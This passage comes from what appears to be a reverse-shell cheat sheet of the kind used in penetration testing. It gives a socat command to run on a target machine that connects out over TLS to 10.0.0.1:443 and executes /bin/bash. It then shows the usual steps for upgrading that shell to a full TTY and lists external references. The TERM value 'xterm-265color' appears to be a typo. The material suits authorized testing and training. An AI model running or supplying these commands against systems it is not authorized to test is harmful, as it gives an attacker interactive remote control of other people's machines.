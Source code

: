 After that on the target machine run socat with OPENSSL:

```
socat OPENSSL:10.0.0.1:443,cert=rev_shell.pem,verify=0 EXEC:/bin/bash
```

### Improve the rev shell to TTY

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Run to background with `Ctrl + Z`

```
stty raw -echo;fg
export TERM=xterm-265color
```

{% hint style="info" %}
**Don't use** `tmux` and `rlwrap` if you want better results.
{% endhint %}

#### References:

* [https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/)
* [https://www.sniferl4bs.com/2017/04/hacking-101-reverse-shell-bind-shell.html](https://www.sniferl4bs.com/2017/04/hacking-101-reverse-shell-bind-shell.html)
* [https://securityhacklabs.net/articulo/accediendo-remotamente-a-windows-10-con-metasploit](https://securityhacklabs.net/articulo/accediendo-remotamente-a-windows-10-con-metasploit)
* [https://www.youtube.com/watch?v=fIGvOGrdxyc\&t=164s](https://www.youtube.com/watch?v=fIGvOGrdxyc\&t=164s)
* [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
